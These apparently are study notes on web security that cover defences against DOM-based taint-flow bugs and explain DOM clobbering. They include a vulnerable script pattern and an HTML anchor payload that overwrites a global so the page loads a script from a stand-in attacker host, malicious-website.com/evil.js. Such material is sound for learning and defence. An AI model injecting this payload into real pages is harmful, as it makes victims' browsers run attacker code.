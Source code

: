 ![[Pasted image 20230405181403.png]]

### How to prevent DOM-based taint-flow vulnerabilities
There is no single action you can take to eliminate the threat of DOM-based attacks entirely. However, generally speaking, the most effective way to avoid DOM-based vulnerabilities is to avoid allowing data from any untrusted source to dynamically alter the value that is transmitted to any sink.

If the desired functionality of the application means that this behavior is unavoidable, then defenses must be implemented within the client-side code. In many cases, the relevant data can be validated on a whitelist basis, only allowing content that is known to be safe. In other cases, it will be necessary to sanitize or encode the data. This can be a complex task, and depending on the context into which the data is to be inserted, may involve a combination of JavaScript escaping, HTML encoding, and URL encoding, in the appropriate sequence.

For measures you can take to prevent specific vulnerabilities, please refer to the corresponding vulnerability pages linked from the table above.

## DOM clobbering
* DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page
* DOM clobbering is particularly useful in cases where [XSS](https://portswigger.net/web-security/cross-site-scripting) is not possible, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter
* The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL
* The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead
* For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as `submit`, to interfere with a form's actual `submit()` function

#### How to exploit DOM-clobbering vulnerabilities
* A common pattern used by JavaScript developers is

```python
var someObject = window.someObject || {..};
```

* If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor

```python
<script> 
	window.onload = function() { 
		let someObject = window.someObject || {}; 
		let script = document.createElement('script'); 
		script.src = someObject.url; 
		document.body.appendChild(script); 
	}; 
</script>
```

* Inject the following HTML to clobber the `someObject` reference with an anchor element

```HTML
<a id=someObject>
<a id=someObject name=url href=//malicious-website.com/evil.js>
```
